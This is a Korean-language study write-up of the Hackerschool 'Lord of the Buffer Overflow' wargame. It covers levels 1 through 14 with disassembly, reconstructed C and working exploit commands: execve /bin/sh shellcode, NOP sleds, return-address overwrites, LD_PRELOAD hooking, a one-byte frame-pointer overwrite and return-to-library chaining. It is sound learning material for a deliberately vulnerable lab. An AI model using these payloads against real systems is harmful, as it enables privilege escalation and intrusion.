

 

# Lord Of the Buffer Overflow 문제풀이

Buffer Overflow기법에 대해서 공부하는 용도로 hackerschool에서 제작한 워게임에 대한 풀이를 보고서 형식으로 작성하였습니다.
원래는 c로 작성된 소스코드를 볼 수 있도록 출제측에서 오픈해놓았으나, 학습이 목적이기도하며 실제 상황에서는 소스코드가 오픈되어 있지 않는 점 등을 감안하여 GDB디버거로 바이너리 코드를 열어 이를 통해 분석하는 리버스엔지니어링을 이용한 문제해결을 하였습니다.

### 자료 링크
- [BOF 전용 게시판](http://www.hackerschool.org/HS_Boards/zboard.php?id=bof_fellowship)
- [BOF 다운로드](http://www.hackerschool.org/HS_Boards/zboard.php?id=bof_fellowship_2round&page=1&sn1=&divpage=1&sn=off&ss=on&sc=on&select_arrange=headnum&desc=asc&no=4)

### 사전 지식
- gdb 접속: $ gdb
- gdb 에서 esp 70개씩 보면 보기 편함
- level clear 방법: `$bash` 나오면 성공
- 다음레벨 id 확인 방법: `$bash: id` or `$bash: whoami` 입력
- 다음레벨 pw 확인 방법: `$ my-pass`
- putty로 telnet 접속 방법: `#> netconfig`
- 유동ip설정: `#> /sbin/ifconfig`
- 환경변수에서 SHELL 포함된 내용 보기: `#> env | grep SHELL`
- SHELL 변경: `#> chsh` 입력 후 `/bin/bash2` 입력

## (01) LEVEL1: gate/gate

```
0x8048430 <main>:       push   %ebp
0x8048431 <main+1>:     mov    %ebp,%esp  // 프롤로그

0x8048433 <main+3>:     sub    %esp,0x100 // 스택영역 100바이트 할당

0x8048439 <main+9>:     cmp    DWORD PTR [%ebp+8],1 // [ebp+8]은 첫번째 argument이므로 argc
0x804843d <main+13>:    jg     0x8048456 <main+38>  // if(argc <=1) 

0x804843f <main+15>:    push   0x80484e0
0x8048444 <main+20>:    call   0x8048350 <printf> // printf( "argv error\n");
0x8048449 <main+25>:    add    %esp,4 // 함수리턴

0x804844c <main+28>:    push   0  // 아래 함수의 argument
0x804844e <main+30>:    call   0x8048360 <exit> // exit(0)
0x8048453 <main+35>:    add    %esp,4 // 함수리턴

0x8048456 <main+38>:    mov    %eax,DWORD PTR [%ebp+12] // [ebp+12]는 두번째 argument이므로 *argv[0]
0x8048459 <main+41>:    add    %eax,4
0x804845c <main+44>:    mov    %edx,DWORD PTR [%eax]  //  argv[1]
0x804845e <main+46>:    push   %edx
0x804845f <main+47>:    lea    %eax,[%ebp-256]  // strcpy의 두번째 argument argv[1]
0x8048465 <main+53>:    push   %eax // strcpy의 첫번재 argument &buffer[0]
0x8048466 <main+54>:    call   0x8048370 <strcpy> // strcpy(buffer,argv[1])
0x804846b <main+59>:    add    %esp,8 // 함수리턴

0x804846e <main+62>:    lea    %eax,[%ebp-256]  // &buffer[0]
0x8048474 <main+68>:    push   %eax // &buffer[0]
0x8048475 <main+69>:    push   0x80484ec  // "%s\n"
0x804847a <main+74>:    call   0x8048350 <printf> // printf(""%s\n",buffer)
0x804847f <main+79>:    add    %esp,8 // 함수리턴

0x8048482 <main+82>:    leave
0x8048483 <main+83>:    ret
```

### 문제풀이

#### 제약조건
1. arg가 2개 이상이기만 하면 됨
#### 문제풀이
제약조건이 하나 뿐이므로 여러가지 방법으로 문제풀이가 가능한데, 가장 기본인 stack 메모리의 시작주소를 return주소로 정하였다.
  - 셸코드 크기: 25바이트
  - "\x90"235만큼 채우면 된다.
  - `r $(perl -e 'print "SHELL CODE" . "\x90"x235 . "\x78\xf9\xff\xbf"')
  - SHELL CODE 시작될 주소: `bf-ff-f9-78`
  - "SHELL CODE"
    ```
    \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80
    ```
  - arg를 하나 더 추가해서 풀 수도 있음
    ```
    x/20s $ebp-3000
    bffff6d9
    ```

## (02) LEVEL2: gremlin / hello bof world

```
0x8048430  <main>:       push   %ebp   
0x8048431  <main+1>:     mov    %ebp,%esp // 프롤로그

0x8048433  <main+3>:     sub    %esp,16 // 스택영역 16바이트 할당

0x8048436  <main+6>:     cmp    DWORD PTR [%ebp+8],1  // [ebp+8]은 첫번째 argument이므로 argc
0x804843a  <main+10>:    jg     0x8048453  <main+35>  // if(argc <=1)

0x804843c  <main+12>:    push   0x80484d0   
0x8048441  <main+17>:    call   0x8048350  <printf> // printf( "argv error\n")
0x8048446  <main+22>:    add    %esp,4  //  함수리턴

0x8048449  <main+25>:    push   0  // 아래 함수의 argument
0x804844b  <main+27>:    call   0x8048360  <exit> // exit(0)
0x8048450  <main+32>:    add    %esp,4  // 함수리턴

0x8048453  <main+35>:    mov    %eax,DWORD PTR [%ebp+12]  // [ebp+12]는 두번째 argument이므로 *argv[0]
0x8048456  <main+38>:    add    %eax,4  // argv[1]

0x8048459  <main+41>:    mov    %edx,DWORD PTR [%eax]// strcpy의  두번째 argument
0x804845b  <main+43>:    push   %edx   
0x804845c  <main+44>:    lea    %eax,[%ebp-16]  //strcpy의 첫번재 argument &buffer[0]
0x804845f  <main+47>:    push   %eax   
0x8048460  <main+48>:    call   0x8048370 <strcpy> // strcpy(buffer,argv[1]);
0x8048465  <main+53>:    add    %esp,8

0x8048468  <main+56>:    lea    %eax,[%ebp-16]   
0x804846b  <main+59>:    push   %eax   
0x804846c  <main+60>:    push   0x80484dc // "%s\n"
0x8048471  <main+65>:    call   0x8048350  <printf>   
0x8048476  <main+70>:    add    %esp,8  // printf(""%s\n",buffer);

0x8048479  <main+73>:    leave   
0x804847a  <main+74>:    ret  // 함수리턴
```

### 문제풀이

1. 셸코드 25바이트. 스택메모리 16바이트. 셸코드를 어디에 업로드??
```
argv는 어디에 위치하는가?

-----

 ebp

-----

 ret(ebp+4)

-----

argc(ebp+8) (arg가 2라면00000002가 표시됨)

-----

*argv(ebp+12) 포인터이므로 argv가 저장된 주소가 표시됨.  다음 주소는 ebp+16 ...

-----

gdb aa
(GDB) display/i  $eip
(GDB) r aaaa bbbb cccc dddd eeee
해서 보면 ret 이후에 6 입력(argument 갯수)
그 다음이 
x/x 그 다음 주소
해서보면
x/s 다음 주소: "/home/gremlin/aa" 가 보임
x/s 그 다음 주소: "aaaa"
x/s 그 다음 주소: "bbbb"
...
x/s 그 다음 주소: "eeee"

./aa aaaa 하면 aaaa를 쓰든 안쓰든 스택메모리에 저장시킴.

x/20s 첫번째 주소
해서 보면 argument아래에 환경변수가 입력되게 된다.
환경변수: env로 확인할 수 있음.
환경변수의 위치에 따라서 main함수 시작 stack pointer 달라짐

kernel

------

esp

----

ret

..

kernel영역에 esp

셸코드 넣을 수 있는 부분 두가지
1. argument.
2. 환경변수에 업로드.

sol1) 환경변수 활용해서 풀이

export aaa=$(perl -e 'print"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"')

\x32이전에 \x90을 10000개 정도 올린 후에 풀어보면 더 셸코드 실행하기 편함

./cobolt $(perl -e 'print "a"x20 . "\x25\xff\xff\xbf"')

sol2) 매개변수 활용해서 풀이

./cobolt  $(perl -e 'print "a"x20 ."\x56\xfc\xff\xbf"') $(perl -e 'print"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"')

*nop slade
nop(no operation, not operation)
nop => \x90

[nop x 100개][shell code]
nop코드 있는 어떤 곳 중의 주소만 입력해도 그 뒤에 있는 셸코드 실행 가능.
```

## (03) LEVEL3. cobolt / hacking exposed

### 제약조건
- gets로 입력받음
- 셸코드를 미리 입력해두고 파이프라인을 통해 텍스트 넘겨주고 실행시킴 (표준 출력->표준입력으로 넘겨줌)
- 뒤에 ;cat을 추가해서 넘겨주면 정확하게 값이 넘어간다.

### 문제풀이
1. bash2로 변경
2. 환경변수 등록(export~)
```
export hack=$(perl -e 'print "\x90"x10000 . "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"')
```
3. perl 작성 (perl -e 'print "a"x20 . "\xe2\xfb\xff\xbf"';cat)|./goblin

## (04) LEVEL4. id: goblin // pw: hackers proof

### 제약조건
1. argc<=1
2. memset environ(환경변수)
3. argv1=="\xbf";

### 문제풀이
```
r $(perl -e 'print "\x90"x19 . "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80" . "\xd0\xfa\xff\xbf"')
```

- 리턴주소가 argv[1]을 가리키도록 함
- 매개변수 2개로 풀어도 된다.

## (05) LEVEL5: orc / cantata

### 제약조건
1. argc<=1
2. memset environ(환경변수)
3. argv1=="\xbf"
4. memset buffer

### 문제풀이
```
./wolfman $(perl -e 'print "\x90"x19 . "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80" . "\x64\xfc\xff\xbf"')
```

## (06) LEVEL6: wolfman / love eyuna

### 제약조건
1. argc<=1
2. memset environ(환경변수)
3. argv1=="\xbf"
4. argv[1]<=48
5. memset buffer

### 문제풀이
```
./darkelf $(perl -e 'print "\x90"x19 . "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80" . "\x44\xfc\xff\xbf"')
```

## (07) LEVEL7: darkelf / kernel crashed

### 제약조건
1. argv[0]이 77이어야 함
2. argv1="bf"이어야 함
3. argv1~ 사용불가
4. 환경변수 사용 불가
5. 버퍼 지움.(argv[1]도 사용불가)

### 문제점
- gdb로 테스트시에는 /home/darkelf/(77에서 총 14자 뺀 63개짜리로 테스트해야함. 
- 단,실행시에는 ."/" x72 orge 해서 테스트

### 문제풀이
```
$(perl -e 'print "." . "/"x72')orge $(perl -e 'print "\x90"x44 . "\x24\xfb\xff\xbf"') $(perl -e 'print "\x90"x10000 . "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"')
```

## (08) LEVEL8: orge / timewalker

### 제약조건
1. argc=2
2. memset environ(환경변수)
3. argv1="\xbf"
4. memset buffer
5. memset argv[1]

### 문제풀이

**argv[0]을 사용하는 수 밖에 없음!**

1. 심볼릭링크이용하여 파일이름을 셸코드로 만들기
  - 파일이 생성되지 않음
2. 경로이름을 셸코드로 만들기
  - 셸코드 내의 2f가 "/"를 가리켜 생성에 오류가 생김
  - mkdir -p옵션으로 하위디렉토리까지 생성
  ```
  mkdir -p aaaa$(perl -e 'print "\x90"x200 . "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"')
  
  r $(perl -e 'print "a"x47 . "\xbf"')
  
  실행
  ./aaaa$(perl -e 'print "\x90"x200 . "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"')/../troll
  ```

## (09) LEVEL9: troll / aspirin

### 제약조건
1. argc<=1
2. argv1=="\xbf"
3. argv1!="\xff" 

### 문제풀이
```
./vampire $(perl -e 'print "a"x44 . "\x88\xd5\xfe\xbf" . "\x90"x10000') $(perl -e 'print "\x90"x10000 . "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"')

bf/ff가 막혀있으므로 fe부터 넣어서 ff까지 채워줌(이론상으로는 65535개)
argv[2], argv[3] .. 계속 넣어주어 해결함
```

## (10) LEVEL10: vampire / music world

### 제약조건
1. argc<=1
2. memset environ(환경변수)
3. argv1= "\xbf"
4. argv[1]길이<=48
5. memset buffer
6. memset argv[0],[1]...
  - argv[0],[1]다 지워짐
  - 그래도 일단 argv[0]을 이용해봄
  - ==> argv[0]이 지워지기는 하나 kernel 위에 남아있는 영역이 있음

### 문제풀이
```
mkdir -p ~~

./zzzz$(perl -e 'print "\x90"x200 . "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"')/../../../aaaaaaaaaa $(perl -e 'print "a"x44 . "\x10\xff\xff\xbf"')
  
디렉토리 이름을 셸코드로~
argv를 다 지우지만 남아있는 영역이 있음. 그 주소(bf/ff/ff/10)를 가리키면 깨진다!
```

## (11) LEVEL11 skeleton / shellcoder

### 제약조건
1. argc>=2
2. argv1="\xbf"
3. memset buffer
4. memset all argv영역

### 참고사항
- memset : dest가 가리키는 메모리를 c값으로 count 만큼 채운다.
  + void *memset ( void *dest, int c, size_t count );
- Parameters
  + dest : 채울 대상이 되는 메모리
  + c : 메모리에 채울 값, int형이지만 1바이트(char)로 인식
  + count : c값을 대상 메모리에 채울 개수

### 문제풀이
- LD_PRELOAD라는 환경변수를 임의로 만들어준다.(기본적으로 들어가지는 않음)
- cat maps
- 40..으로 시작되는 주소에 /lib/ld./xxxx.so라는 것이 있음
- 원래 함수보다 먼저 내가 함수를 로드 시켜놓으면 내가 올려놓은 함수가 실행된다.(후킹이라고 함)

```
uid_t get_uid

#include <unistd.h>
#include <sys/types.h>

uid_t getuid(){
  return 9999;
}

$ gcc -o hook.so hook.c --shared -fPIC

$ export LD_PRELOAD=/home/skeleton/hook.so

환경변수 지우는법 
$ unset LD_PRELOAD

$ env | grep LD_PRELOAD

이렇게 해서 
#>id 해 보면 

LD_PRELOAD=/home/skeleton/hook.so 가 보인다.

$(perl -e 'print "\x90"x100000 . "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"')

mkdir -p $(perl -e 'print "aaaa" . "\x90"x200 . "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"')

export LD_PRELOAD=./$(perl -e 'print "aaaa" . "\x90"x200 . "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"')/../../../hook.so

./$(perl -e 'print "aaaa" . "\x90"x200 . "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"')/../../../aa

r $(perl -e 'print "a"x44 . "\x0b\xf3\xff\xbf"')
0xbffff30b:

./golem $(perl -e 'print "a"x44 ."\x2b\xf4\xff\xbf"')

ebp-3000정도 부터 x/s로 찾아보다보면 LD_PRELOAD에 올려놓은 내용이 보임
```

## (12) LEVEL12: golem / cup of coffee

### 문제 개요
- problem_child라는 함수가 있음
- 이 함수 내에는 strncpy가 있음(src가 dest보다 strncpy strcpy보다 작은 수 복사(뒤에 null붙음)

**assembly 코드**
```
<main>

0x804846c <main>:       push   %ebp
0x804846d <main+1>:     mov    %ebp,%esp
0x804846f <main+3>:     cmp    DWORD PTR [%ebp+8],1
0x8048473 <main+7>:     jg     0x8048490 <main+36>
0x8048475 <main+9>:     push   0x8048504 
0x804847a <main+14>:    call   0x8048354 <printf>
0x804847f <main+19>:    add    %esp,4
0x8048482 <main+22>:    push   0
0x8048484 <main+24>:    call   0x8048364 <exit>
0x8048489 <main+29>:    add    %esp,4

0x804848c <main+32>:    lea    %esi,[%esi*1]
0x8048490 <main+36>:    mov    %eax,DWORD PTR [%ebp+12]
0x8048493 <main+39>:    add    %eax,4
0x8048496 <main+42>:    mov    %edx,DWORD PTR [%eax]
0x8048498 <main+44>:    push   %edx
0x8048499 <main+45>:    call   0x8048440 <problem_child>
0x804849e <main+50>:    add    %esp,4 
0x80484a1 <main+53>:    leave
0x80484a2 <main+54>:    ret

<problem_child>
0x8048440 <problem_child>:      push   %ebp
0x8048441 <problem_child+1>:    mov    %ebp,%esp
0x8048443 <problem_child+3>:    sub    %esp,40
0x8048446 <problem_child+6>:    push   41
0x8048448 <problem_child+8>:    mov    %eax,DWORD PTR [%ebp+8]
0x804844b <problem_child+11>:   push   %eax
0x804844c <problem_child+12>:   lea    %eax,[%ebp-40]
0x804844f <problem_child+15>:   push   %eax
0x8048450 <problem_child+16>:   call   0x8048374 <strncpy>
0x8048455 <problem_child+21>:   add    %esp,12
0x8048458 <problem_child+24>:   lea    %eax,[%ebp-40]
0x804845b <problem_child+27>:   push   %eax
0x804845c <problem_child+28>:   push   0x8048500
0x8048461 <problem_child+33>:   call   0x8048354 <printf>
0x8048466 <problem_child+38>:   add    %esp,8 
0x8048469 <problem_child+41>:   leave
0x804846a <problem_child+42>:   ret
0x804846b <problem_child+43>:   nop
```

**c언어로 예측하여 변환한 코드**
```
problem_child(*src){
  char buffer[40];
  strncpy(buffer,src,41);
  printf("%s\n",buffer);
}

int main(){
  if(argc<=1){
    printf("argv error\n");
    exit(0);
  }
  
  problem_child(argv[1]);
  return 0;
}
```

### 제약조건
1. 41바이트 복사
2. 리턴주소의 마지막 주소만 변환 가능
3. argv>=1
4. main함수->problem_child->main함수넘어갔다오는 과정에서 esp가 4 증가?되므로 조절 필요

### 문제풀이
```
./darkknight $(perl -e 'print "\x90"x15 . "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80" . "\xbc"')

맨앞에는 셸코드, 41번째 바이트에 들어가는게 맨 뒤 주소
```

### 문제풀이
다른 방법을 이용하여 풀이

```
함수 2개 int 함수, problem child
strncpy: 오버플로우 방지위해 사용
strcpy가 사이즈 검사하지 않음
strncpy는 사이즈를 정해줌
40->41바이트로 복사
마지막 파일에 \0을 넣을 수 있도록 1바이트의 여유공간이 있어 1바이트 오버플로우 발생
prob-child의strncpy와 브레이크 해두면 ebp확인가능(p-c함수의 ebp)

leave: 2개의 명령어 포함(mov esp, ebp)
==>pop ebp
==>leave에 브레이크 걸고 전후 모습을 보면

ret
==>pop eip

info reg ebp esp해서 보면 ebp가 오버플로우 된 주소로 나옴
esp+4
leave에 esp에 ebp가 저장됨
ret에 pop eip가 됨. ebp+4가 eip가 되므로 ebp+4로 ret되게 됨!
따라서 ebp를 원하는 주소 -4에 셸코드 넣어놓으면 깰 수 있음

셸코드주소 4바이트 전에 ebp를 넣어주어야 함

환경변수에 셸코드 로드해서 풀이
4바이트 ebp 36바이트 \xcc
```

## (13) LEVEL13: darkknight / new attacker

### 제약조건
1. argc>1
2. argc1!="\xbf" ==? 어떻게??
  - strcpy(buffer,argv[1])
  - bf를 사용할 수 없으므로 스택메모리를 사용할 수 없음
  - @RTL(Return To Library)
    + RTL의 전신: Omega Project(셸코드를 사용하지않고 루트권한 획득할 수 있을까? 라는 화두에서 시작)

#### 어셈블리 코드의 동작을 알아보기 위해 `test.c` 파일을 만든 후, 이를 컴파일한 결과 나오는 바이너리 코드로 테스트 수행

```
test.c

void dummy01(){ printf("call dummy01\n"); }
void dummy02(){ printf("call dummy02\n"); }
void dummy03(){ printf("call dummy03\n"); }
void dummy04(){ printf("call dummy04\n"); }
void dummy05(){ printf("call dummy05\n"); }

int main(int argc, char *argv[]){
  char buffer[100]={0,};
  strcpy(buffer,argv[1]);
  printf("%s\n",buffer);
  return 0;
}
```

```
disassemble main 해서 보면 호출하지 않았으니, dummy를 볼 수 없으나
disassemble dummy01 해서 보면이미 메모리에 올라가있음
dummy함수 시작주소만 알 수 있으면 이를 호출해서 쓸 수 있음

./test $(perl "a"x104 . dummy함수의 시작주소 써주면 dummy함수 호출됨.

(gdb) disassemble dummy02

0x8048414 <dummy02>:    push   %ebp

dummy02의 시작주소: 0x8048414

./test $(perl -e 'print "a"x104 . "\x14\x84\x04\x08"')
```

#### 결과
```
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
call dummy02     // dummy02함수 호출된 모습
Segmentation fault (core dumped)
```

#### 여러개 함수를 한번에 호출하고싶다면?
```
dummy01은 0x8048400 <dummy01>:    push   %ebp
// 00인 NULL값이 들어가므로 호출할 수 없음
dummy02: 0x8048414
dummy03: 0x8048428
dummy04: 0x804843c
// 함수 종료시 
ebp: ad8, esp: a70
leave: ebp: 41414141, esp: adb
//esp에 들어있던주소가 eip로 들어가서 함수 호출
ret

ebp  /  esp(dummy01주소)

[fad8] / [fadc]
          faec(because of pop)
     esp: fadc

ret후에 다음함수 볼때에는 si로 봐야한다.(프롤로그에는 브레이크 걸리지 않음)
리턴주소에 연결해서 쓰면 호출하고자하는 함수를 한번에 출력가능하다.

call은 jmp와 달리 다음 실행될 주소를 가지고있게 되어 esp가 이동되게 됨.

./test $(perl -e 'print "a"x104 . "\x14\x84\x04\x08" . "\x28\x84\x04\x08" . "\x3c\x84\x04\x08"')
```

#### 결과
```
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
call dummy02
call dummy03
call dummy04
Segmentation fault (core dumped)
```

```
ebp는 호출되기 전에 실행되고있던 함수의 ebp
프롤로그  push ebp
        mov  ebp, esp
에필로그  leave:     mov     esp,     ebp // esp에 ebp넣어줌
                   pop     ebp          // esp가 가리키는곳의 값을 ebp에 넣어줌
        ret:     pop     eip
```

## (14) LEVEL14: bugbear / new divide

### 문제 개요

**assembly 코드**

```
0x8048560  <main>:       push   %ebp
0x8048561  <main+1>:     mov    %ebp,%esp
0x8048563  <main+3>:     sub    %esp,60

0x8048566  <main+6>:     cmp    DWORD PTR  [%ebp+8],1
0x804856a  <main+10>:    jg     0x8048583  <main+35>
0x804856c  <main+12>:    push   0x8048700   
0x8048571  <main+17>:    call   0x8048444  <printf>
0x8048576  <main+22>:    add    %esp,4     

0x8048579  <main+25>:    push   0   
0x804857b  <main+27>:    call   0x8048474  <exit>
0x8048580  <main+32>:    add    %esp,4     

0x8048583  <main+35>:    push   0x804870c   
0x8048588  <main+40>:    push   0x8048720   
0x804858d  <main+45>:    call   0x8048404 <popen>
0x8048592  <main+50>:    add    %esp,8     

0x8048595  <main+53>:    mov    %eax,%eax   
0x8048597  <main+55>:    mov    DWORD PTR  [%ebp-44],%eax   
0x804859a  <main+58>:    mov    %eax,DWORD PTR  [%ebp-44]   
0x804859d  <main+61>:    push   %eax   
0x804859e  <main+62>:    push   0xff   
0x80485a3  <main+67>:    lea    %eax,[%ebp-40]   
0x80485a6  <main+70>:    push   %eax    
0x80485a7  <main+71>:    call   0x8048424  <fgets>   
0x80485ac  <main+76>:    add    %esp,12     

0x80485af  <main+79>:    lea    %eax,[%ebp-48]   
0x80485b2  <main+82>:    push   %eax   
0x80485b3  <main+83>:    push   0x804876b   
0x80485b8  <main+88>:    lea    %eax,[%ebp-40]   
0x80485bb  <main+91>:    push   %eax   
0x80485bc  <main+92>:    call   0x8048484  <sscanf>   
0x80485c1  <main+97>:    add    %esp,12     

0x80485c4  <main+100>:   mov    %eax,DWORD PTR [%ebp-44]   
0x80485c7  <main+103>:   push   %eax   
0x80485c8  <main+104>:   call   0x8048464 <fclose>   
0x80485cd  <main+109>:   add    %esp,4     

0x80485d0  <main+112>:   push   0x804870c   
0x80485d5  <main+117>:   push   0x8048780   
0x80485da  <main+122>:   call   0x8048404 <popen>   
0x80485df  <main+127>:   add    %esp,8     

0x80485e2  <main+130>:   mov    %eax,%eax   
0x80485e4  <main+132>:   mov    DWORD PTR [%ebp-44],%eax   
0x80485e7  <main+135>:   mov    %eax,DWORD PTR [%ebp-44]   
0x80485ea  <main+138>:   push   %eax   
0x80485eb  <main+139>:   push   0xff   
0x80485f0  <main+144>:   lea    %eax,[%ebp-40]   
0x80485f3  <main+147>:   push   %eax   
0x80485f4  <main+148>:   call   0x8048424 <fgets>   
0x80485f9  <main+153>:   add    %esp,12     

0x80485fc  <main+156>:   lea    %eax,[%ebp-52]   
0x80485ff  <main+159>:   push   %eax   
0x8048600  <main+160>:   push   0x80487c8   
0x8048605  <main+165>:   lea    %eax,[%ebp-40]   
0x8048608  <main+168>:   push   %eax   
0x8048609  <main+169>:   call   0x8048484 <sscanf>   
0x804860e  <main+174>:   add    %esp,12     

0x8048611  <main+177>:   mov    %eax,DWORD PTR [%ebp-44]   
0x8048614  <main+180>:   push   %eax   
0x8048615  <main+181>:   call   0x8048464 <fclose>   
0x804861a  <main+186>:   add    %esp,4     

0x804861d  <main+189>:   mov    %eax,DWORD PTR [%ebp-48]   
0x8048620  <main+192>:   mov    %edx,DWORD PTR  [%ebp-52]   
0x8048623  <main+195>:   lea    %ecx,[%edx+%eax*1]   
0x8048626  <main+198>:   mov    DWORD PTR  [%ebp-56],%ecx     

0x8048629  <main+201>:   push   4   
0x804862b  <main+203>:   mov    %eax,DWORD PTR  [%ebp+12]   
0x804862e  <main+206>:   add    %eax,4   
0x8048631  <main+209>:   mov    %edx,DWORD PTR  [%eax]   
0x8048633  <main+211>:   add    %edx,44   
0x8048636  <main+214>:   push   %edx   
0x8048637  <main+215>:   lea    %eax,[%ebp-60]   
0x804863a  <main+218>:   push   %eax   
0x804863b  <main+219>:   call   0x8048454 <memcpy>   
0x8048640  <main+224>:   add    %esp,12     

0x8048643  <main+227>:   mov    %eax,DWORD PTR [%ebp-60]   
0x8048646  <main+230>:   cmp    %eax,DWORD PTR  [%ebp-56]   
0x8048649  <main+233>:   je     0x8048662  <main+258>   
0x804864b  <main+235>:   push   0x80487cb   
0x8048650  <main+240>:   call   0x8048444 <printf>   
0x8048655  <main+245>:   add    %esp,4     

0x8048658  <main+248>:   push   0   
0x804865a  <main+250>:   call   0x8048474 <exit>   
0x804865f  <main+255>:   add    %esp,4     

0x8048662  <main+258>:   mov    %eax,DWORD PTR [%ebp+12]   
0x8048665  <main+261>:   add    %eax,4   
0x8048668  <main+264>:   mov    %edx,DWORD PTR [%eax]   
0x804866a  <main+266>:   push   %edx   
0x804866b  <main+267>:   lea    %eax,[%ebp-40]   
0x804866e  <main+270>:   push   %eax   
0x804866f  <main+271>:   call   0x8048494 <strcpy>   
0x8048674  <main+276>:   add    %esp,8     

0x8048677  <main+279>:   lea    %eax,[%ebp-40]   
0x804867a  <main+282>:   push   %eax   
0x804867b  <main+283>:   push   0x80487e1   
0x8048680  <main+288>:   call   0x8048444 <printf>   
0x8048685  <main+293>:   add    %esp,8     

0x8048688  <main+296>:   leave   
0x8048689  <main+297>:   ret	
```

### 참고: 함수 원형
1. popen
```
#include <stdio.h>
FILE *popen(const char *command, const char *type);
```
2. fgets
```
#include <stdio.h>
char *fgets(char *s, int size, FILE *stream);
```
3. sscanf
```
#include <stdio.h>
int sscanf( const char *str, const char *format, ...);
```
4. fclose
```
#include <stdio.h>
int fclose( FILE *stream);
```
5. memcpy
```
#include <string.h>
void *memcpy(void *dest, const void *src, size_t n);
```
6. execve
```
NAME
  execve - execute program

SYNOPSIS
  #include <unistd.h>
  int  execve  (const  char  *filename, char *const argv[],
  char *const envp[]);
  
DESCRIPTION
  execve() executes the  program  pointed  to  by filename. filename  must  be either a binary executable, or a script starting with a line of the form "#!  interpreter [arg]". In  the latter case, the interpreter must be a valid path name for an executable which is not itself a script, which will be invoked as interpreter [arg] filename.
```

**c언어로 예측하여 변환한 코드**

```
#include <stdio.h>
#include <string.h>
#include <unistd.h>

int main( int argc, char * argv[]){
  char buffer[40]; //[ebp-40],
  FILE *fp;
  char *offset;
  char *addr;
  char *execv;
  char *ret;
  
  if(argc<=1){
    printf("argv error\n");
    exit(0);
  }
  
  fp=popen( "/usr/bin/ldd/home/bugbear/giant | /bin/grep libc | /bin/awk '{print $4}'" , "r");
  fgets(buffer , 255 , fp);
  sscanf(buffer,"(%x)",offset);
  fclose(fp);
  
  popen("/usr/bin/nm /lib/libc.so.6 | /bin/grep __execve | /bin/awk '{print $1}'", "r");
  fgets(buffer,255,fp);
  sscanf(buffer,"%x",addr);
  fclose(fp);
  
  execv = addr + (int)offset;
  memcpy( ret, &(argv1), 4);
  
  if(ret != execv){
    printf("You must use execve!\n");
    exit(0);
  }
  
  strcpy(buffer, argv[1]);
  printf("%s\n",buffer);
  
  return 0;
}

/usr/bin/ldd /home/giant/assassin | /bin/grep libc | /bin/awk '{print $4}'
-->접근권한이 없어서 접근 불가

/usr/bin/ldd /home/bugbear/giant | /bin/grep libc | /bin/awk '{print$4}'
--> 실행 가능.

